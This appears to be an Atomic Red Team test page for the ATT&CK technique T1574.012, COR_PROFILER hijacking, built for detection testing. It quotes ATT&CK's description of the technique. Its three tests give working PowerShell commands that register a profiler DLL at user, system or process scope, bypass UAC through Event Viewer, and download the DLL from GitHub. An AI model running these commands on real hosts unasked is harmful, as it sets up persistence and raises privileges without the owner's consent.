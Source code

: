 # T1574.012 - Hijack Execution Flow: COR_PROFILER
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1574/012)
<blockquote>Adversaries may leverage the COR_PROFILER environment variable to hijack the execution flow of programs that load the .NET CLR. The COR_PROFILER is a .NET Framework feature which allows developers to specify an unmanaged (or external of .NET) profiling DLL to be loaded into each .NET process that loads the Common Language Runtime (CLR). These profilers are designed to monitor, troubleshoot, and debug managed code executed by the .NET CLR.(Citation: Microsoft Profiling Mar 2017)(Citation: Microsoft COR_PROFILER Feb 2013)

The COR_PROFILER environment variable can be set at various scopes (system, user, or process) resulting in different levels of influence. System and user-wide environment variable scopes are specified in the Registry, where a [Component Object Model](https://attack.mitre.org/techniques/T1559/001) (COM) object can be registered as a profiler DLL. A process scope COR_PROFILER can also be created in-memory without modifying the Registry. Starting with .NET Framework 4, the profiling DLL does not need to be registered as long as the location of the DLL is specified in the COR_PROFILER_PATH environment variable.(Citation: Microsoft COR_PROFILER Feb 2013)

Adversaries may abuse COR_PROFILER to establish persistence that executes a malicious DLL in the context of all .NET processes every time the CLR is invoked. The COR_PROFILER can also be used to elevate privileges (ex: [Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002)) if the victim .NET process executes at a higher permission level, as well as to hook and [Impair Defenses](https://attack.mitre.org/techniques/T1562) provided by .NET processes.(Citation: RedCanary Mockingbird May 2020)(Citation: Red Canary COR_PROFILER May 2020)(Citation: Almond COR_PROFILER Apr 2019)(Citation: GitHub OmerYa Invisi-Shell)(Citation: subTee .NET Profilers May 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - User scope COR_PROFILER](#atomic-test-1---user-scope-cor_profiler)

- [Atomic Test #2 - System Scope COR_PROFILER](#atomic-test-2---system-scope-cor_profiler)

- [Atomic Test #3 - Registry-free process scope COR_PROFILER](#atomic-test-3---registry-free-process-scope-cor_profiler)


<br/>

## Atomic Test #1 - User scope COR_PROFILER
Creates user scope environment variables and CLSID COM object to enable a .NET profiler (COR_PROFILER).
The unmanaged profiler DLL (`T1574.012x64.dll`) executes when the CLR is loaded by the Event Viewer process.
Additionally, the profiling DLL will inherit the integrity level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity.
If the account used is not a local administrator the profiler DLL will still execute each time the CLR is loaded by a process, however,
the notepad process will not execute with high integrity.

Reference: https://redcanary.com/blog/cor_profiler-for-persistence/

**Supported Platforms:** Windows


**auto_generated_guid:** 9d5f89dc-c3a5-4f8a-a4fc-a6ed02e7cb5a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | unmanaged profiler DLL | Path | PathToAtomicsFolder&#92;T1574.012&#92;bin&#92;T1574.012x64.dll|
| clsid_guid | custom clsid guid | String | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`! 


```powershell
Write-Host "Creating registry keys in HKCU:Software\Classes\CLSID\#{clsid_guid}" -ForegroundColor Cyan
New-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}\InprocServer32" -Value #{file_name} -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -PropertyType String -Value "#{clsid_guid}" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -PropertyType String -Value #{file_name} -Force | Out-Null
Write-Host "executing eventvwr.msc" -ForegroundColor Cyan
START MMC.EXE EVENTVWR.MSC
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}" -Recurse -Force -ErrorAction Ignore 
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -Force -ErrorAction Ignore | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: #{file_name} must be present
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1574.012/bin/T1574.012x64.dll" -OutFile "#{file_name}"
```




<br/>
<br/>

## Atomic Test #2 - System Scope COR_PROFILER
Creates system scope environment variables to enable a .NET profiler (COR_PROFILER). System scope environment variables require a restart to take effect.
The unmanaged profiler DLL (T1574.012x64.dll`) executes when the CLR is loaded by any process. Additionally, the profiling DLL will inherit the integrity
level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity. If the account used is not a local administrator the profiler DLL will
still execute each time the CLR is loaded by a process, however, the notepad process will not execute with high integrity.

Reference: https://redcanary.com/blog/cor_profiler-for-persistence/

**Supported Platforms:** Windows


**auto_generated_guid:** f373b482-48c8-4ce4-85ed-d40c8b3f7310





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | unmanaged profiler DLL | Path | PathToAtomicsFolder&#92;T1574.012&#92;bin&#92;T1574.012x64.dll|
| clsid_guid | custom clsid guid | String | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Write-Host "Creating system environment variables" -ForegroundColor Cyan
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force | Out-Null
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -PropertyType String -Value "#{clsid_guid}" -Force | Out-Null
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -PropertyType String -Value #{file_name} -Force | Out-Null
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -Force -ErrorAction Ignore | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: #{file_name} must be present
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1574.012/bin/T1574.012x64.dll" -OutFile "#{file_name}"
```




<br/>
<br/>

## Atomic Test #3 - Registry-free process scope COR_PROFILER
Creates process scope environment variables to enable a .NET profiler (COR_PROFILER) without making changes to the registry. The unmanaged profiler DLL (`T1574.012x64.dll`) executes when the CLR is loaded by PowerShell.

Reference: https://redcanary.com/blog/cor_profiler-for-persistence/

**Supported Platforms:** Windows


**auto_generated_guid:** 79d57242-bbef-41db-b301-9d01d9f6e817





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | unamanged profiler DLL | Path | PathToAtomicsFolder&#92;T1574.012&#92;bin&#92;T1574.012x64.dll|
| clsid_guid | custom clsid guid | String | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`! 


```powershell
$env:COR_ENABLE_PROFILING = 1
$env:COR_PROFILER = '#{clsid_guid}'
$env:COR_PROFILER_PATH = '#{file_name}'
POWERSHELL -c 'Start-Sleep 1'
```

#### Cleanup Commands:
```powershell
$env:COR_ENABLE_PROFILING = 0
$env:COR_PROFILER = ''
$env:COR_PROFILER_PATH = ''
```



#### Dependencies:  Run with `powershell`!
##### Description: #{file_name} must be present
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1574.012/bin/T1574.012x64.dll" -OutFile "#{file_name}"
```




<br/>
